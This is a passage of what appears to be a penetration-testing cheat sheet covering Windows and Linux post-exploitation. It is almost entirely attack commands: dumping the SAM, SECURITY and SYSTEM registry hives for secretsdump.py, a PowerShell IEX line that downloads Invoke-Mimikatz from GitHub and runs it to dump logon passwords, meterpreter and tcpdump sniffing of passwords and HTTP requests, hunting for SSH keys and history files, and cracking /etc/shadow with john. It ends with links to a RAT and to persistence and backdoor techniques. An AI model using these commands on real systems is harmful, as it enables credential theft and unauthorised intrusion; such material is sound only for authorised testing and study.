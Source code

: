 	C:\> reg.exe save hklm\sam c:\windows\temp\sam.save
	C:\> reg.exe save hklm\security c:\windows\temp\security.save
	C:\> reg.exe save hklm\system c:\windows\temp\system.save
	# use secretdump.py after transfer 3 files above.
	kali: secretsdump.py -sam sam.save -security security.save -system system.save LOCAL

*[Invoke-Mimikatz PS1:](https://book.hacktricks.xyz/windows/stealing-credentials#invoke-mimikatz)*

	IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/clymb3r/PowerShell/master/Invoke-Mimikatz/Invoke-Mimikatz.ps1')
	Invoke-Mimikatz -DumpCreds #Dump creds from memory
	Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam" "exit"'

*TCP dump via meterpreter:*

	run packetrecorder -li
	run packetrecorder -i 1
	
*TCP dump in kali and sniff via meterpreter:*

	kali: sudo tcpdump -i wlan0 src port 80 or dst port 80 -w port-80.pcap
	kali: sudo tcpdump -i wlan0 -vvv -A | grep "GET"	#grep all GET from the wlan0 interface
	kali: sudo tcpdump -nX -r port-80.pcap			#Print the traffic in hex with ascii interpretation.
	kali: sudo tcpdump tcp -w tcp-traffic.pcap 		#Only record tcp-traffic
	kali meterpreter: use auxiliary/sniffer/psnuffle	sniff passwords and usernames from pop3, imap, ftp, and HTTP GET

*search files:*
	
	search -f config*
	search -f *.sql
	dir /s 	#recursive search
	.ssh:
	.bash_history
	
*sudo crack etc/shadow file:*

	sudo cp /etc/passwd /etc/shadow to kali
	sudo unshadow passwd shadow > hashroot.txt
	john --rules --wordlist=/usr/share/wordlists/rockyou.txt > hashroot.txt

*[Koadic C3 - JScript RAT:](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Post%20Exploitation%20Koadic.md)* - Windows post-exploitation rootkit similar to Meterpreter and Powershell Empire.
	
## 16. Persistence - Rootkit - Backdoor
[Persistence](https://sushant747.gitbooks.io/total-oscp-guide/persistence.html) | [Persistence w Metasploit on Windows 10](https://www.hackingarticles.in/multiple-ways-to-persistence-on-windows-10-with-metasploit/) | [PayloadsAllTheThings- Linux Persistence](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Persistence.md) | [PayloadsAllTheThings- Windows Persistence](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Persistence.md)
	